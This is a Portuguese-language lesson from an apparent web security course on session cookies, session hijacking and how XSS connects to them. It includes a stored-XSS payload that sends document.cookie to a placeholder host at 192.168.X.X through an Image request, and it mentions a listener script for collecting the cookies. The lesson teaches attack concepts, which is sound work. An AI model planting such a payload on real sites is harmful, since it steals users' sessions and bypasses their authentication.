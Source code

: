 # Cookies:

![alt tag](https://raw.githubusercontent.com/wiki/fiap2tin/Sec/images/cookies-00.png)

Toda conexão estabelecida entre o Cliente e o Servidor constitue uma **Sessão**, essa sessão é atribuida pelo servidor após execução do processo de conexão no formato "Three Way Handshake" comentado no começo do curso, possuindo uma numeração de identificação baseado em uma tabela chave valor armazenada no servidor, seu uso entre outras funções permite ao servidor identificar o usuário que esta executando a conexão. essa informação também é conhecida pelo Browser do usuária sendo recebida do servidor em uma resposta que chamamos de **Cookie**;

Podemos verificar a existência de Cookies de sessão inspecionando os elementos da Guia Network no acesso a qualquer página web:

![alt tag](https://raw.githubusercontent.com/wiki/fiap2tin/Sec/images/cookies-01.png)

Verifique que neste caso temos o item Cookie com um número de identificação da sessão. Esse número é único e assim será diferente para qualquer outra sessão aberta, faça teste executando o mesmo procedimento a partir de outro Brownser por exemplo ou em uma janela Anônima.

### O conceito de sequestro de sessão:

Ataques baseados em sequestro de sessão utilizam mecanismos de exploits baseados na tentativa de controle dos cookies e tokens de acesso em sessões de usuários, quando essas sessões envolvem autenticação prévia, ou seja roubando a sessão estamos executando um by pass na autenticação e recebendo acesso a páginas e conteúdos que supostamente só deveriam ser acessíveis aos usuários autenticados.

Um token de sessão é normalmente composto por uma string de largura variável e pode ser usado de diferentes maneiras, como na URL, no cabeçalho da requisição http como um cookie ( Modelo que vimos a pouco ), ou em outras partes do cabeçalho ou corpo da requisição http.

Utilizando código JavaScript um Cookie de sessão pode ser obtindo da seguinte forma:

```sh
<script>
alert(document.cookie);
</script>
```

> Neste caso trata-se do Cookie de sua própria sessão o que ainda não configura um processo de sequestro de sessão propriamente dito;

***Como o XSS se relaciona ao Sequestro de Sessão?***

O ponto onde o Cookie de sessão e a exploração de XSS baseado em Javascript se encontram é exatamente no resgate e envio dessa informação a terceiros, uma vez que um usuário esteja em uma área autenticada, o cookie de sessão é uma informação preciosa que utilizado da maneira certa permitiria o acesso ao conteúdo autenticado "simulando" estar na sessão do usuário, Existem certas formas de obter essa informação o principio basico por trás da maioria delas é forçar a execução de código pelo Browser do usuário de forma que o próprio usuário entregue a informação sem perceber;

***Demonstração de roubo de sessão:*** 

No exemplo abaixo utilizaremos uma imagem como base para conseguir isso, essa imagem será seguida pela requisição de acesso ao cookie do usuário:

```sh
Hi Everone...
<script>
var imagem=new Image();
imagem.src="http://192.168.X.X?"+document.cookie;
</script>
```

Na demonstração acima temos o campo "http://192.168.X.X" com endereço do host que receberá o cookie enviado pelo browser e a propriedade ***?"+[document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)*** utilizada para recuperar o cookie associado a sessão no momento em que executamos um GET no conteúdo do blog;

> Para que alguma ação baseada no conceito acima seja bem sucedida será necessário que no endereço de destino o host seja preparado para receber a informação enviada pelo brownser dos usuários que acessaram a página com o código XSS implementado, isso pode ser feito de "N" formas, usando webservers ou aplicações simples como um [script python](https://github.com/fiap2tin/Sec/blob/master/scripts/listen.py);

---

# Material de Referência:

Boa parte dessa aula baseia-se em uma publicação de Prakhar Prasad pela editora Packt:

* [Livro, Mastering Modern Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-modern-web-penetration-testing)


O curso da [Alura]() sobre Segurança Web apresenta alguns conceitos muito legais sobre sequestro de sessão e XSS usando como base a plataforma OWASP:

* [Curso Segurança Web: Vulnerabilidades do seu sistema e OWASP
](https://cursos.alura.com.br/course/seguranca-web-vulnerabilidades-do-seu-sistema)


Detalhamento Técnico sobre a propriedade document.cookie fornecida pelo MDN:

* [Document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)

---

**Free Software, Hell Yeah!**

